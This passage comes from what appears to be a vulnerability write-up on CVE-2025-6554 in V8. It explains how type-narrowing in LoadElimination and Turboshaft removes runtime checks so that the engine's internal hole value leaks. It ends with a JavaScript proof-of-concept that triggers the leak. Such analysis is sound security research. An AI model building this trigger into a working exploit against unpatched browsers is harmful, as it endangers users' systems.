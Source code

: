 **Type hierarchy relationships:**

![Type hierarchy relationships](/assets/imgs/cve-2025-6554-the-rabbit-hole/types.png)

**For a union to be a subtype, ALL members must be subtypes:**

- `(Hole | String).Is(NonInternal)` requires both:

  - `Hole.Is(NonInternal)` = **false** (Hole is standalone)
  - `String.Is(NonInternal)` = true
  - Result: **false** -> TypeGuard is created

- `(Array | String).Is(NonInternal)` requires both:
  - `Array.Is(NonInternal)` = true
  - `String.Is(NonInternal)` = true
  - Result: **true** -> TypeGuard **not** created

**The exploitation flow:**

1. LoadElimination sees `(Hole | String).Is(NonInternal)` = false
2. Creates TypeGuard with `Type::Intersect(NonInternal, (Hole | String))`
3. Type::Intersect filters out Hole (bitwise AND = 0), keeps String
4. TypeGuard gets type String, CheckString is eliminated
5. Turboshaft eliminates TypeGuard entirely (no runtime check)
6. At runtime, `the_hole` flows through unchecked
7. StringLength reads offset +8 from `the_hole` = -524289

**Why can't you use Array instead of Hole?**

If you try `o.value = trigger ? [1,2,3] : "string"`:

- Phi type: `(Array | String)`
- `(Array | String).Is(NonInternal)` = true
- [LoadElimination condition at line 1023](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/compiler/load-elimination.cc;l=1023;drc=609a85c2a1bd77d6f6905369f4bc4fcf34c5db09): `!true` = false
- **No TypeGuard created**
- CheckString remains in the graph
- At runtime with `trigger=true`, CheckString deoptimizes: "not a String"

We can see this assumptions at runtime with this test:

```javascript
function test_hole(trigger) {
  let x;
  delete x?.[y]?.a;
  let hole = y;
  let y;
  let o = {};
  o.val = trigger ? hole : "string";
  return o.val.length;
}

function test_array(trigger) {
  let o = {};
  o.val = trigger ? [1, 2, 3] : "string";
  return o.val.length;
}

%PrepareFunctionForOptimization(test_hole);
%PrepareFunctionForOptimization(test_array);
for (let i = 0; i < 10; i++) {
  test_hole(false);
  test_array(false);
}
%OptimizeFunctionOnNextCall(test_hole);
%OptimizeFunctionOnNextCall(test_array);

print(test_hole(true)); // prints -524289, no deoptimization
```